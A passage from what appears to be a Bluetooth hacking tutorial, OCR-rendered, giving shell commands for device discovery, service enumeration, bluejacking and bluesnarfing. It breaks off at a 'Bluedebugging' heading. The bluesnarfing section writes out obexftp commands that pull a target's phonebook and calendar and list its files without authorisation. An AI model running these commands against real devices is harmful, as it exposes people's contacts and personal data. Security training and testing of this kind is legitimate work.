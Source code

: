 \# Use Bluelog for passive device discovery\
sudo bluelog -i hci0 -o bluetooth_log.txt\
sudo bluelog -i hci0 -d -o bluetooth_log.txt \# Daemon mode

\# Advanced Bluelog options\
sudo bluelog -i hci0 -v -t -o detailed_log.txt \# Verbose with
timestamps

### **Active Reconnaissance**

\# Aggressive device scanning with timeout\
timeout 30s hcitool scan

\# Service enumeration\
for addr in \$(hcitool scan \| grep -oE
'(\[0-9A-F\]{2}:){5}\[0-9A-F\]{2}'); do\
echo "Scanning \$addr"\
sdptool browse \$addr\
done

\# Device class identification\
hcitool inq \| while read addr class rest; do\
echo "\$addr has class \$class"\
done

## **Advanced Bluetooth Attack Vectors**

### **1. Bluejacking**

**Definition**: Sending unsolicited messages via OBEX push to nearby
devices.

\# Using obexftp for bluejacking\
echo "Hello from hacker" \> message.txt\
obexftp -b \[TARGET_MAC\] -p message.txt

\# Using ussp-push\
ussp-push \[TARGET_MAC\]@9 message.txt message.txt

### **2. Bluesnarfing**

**Definition**: Unauthorized access to device information via OBEX
protocol vulnerabilities.

\# Access device phonebook\
obexftp -b \[TARGET_MAC\] -c telecom -g pb.vcf

\# Download calendar entries\
obexftp -b \[TARGET_MAC\] -c telecom/cal -l

\# Access file system (if vulnerable)\
obexftp -b \[TARGET_MAC\] -l

### **3. Bluedebugging**
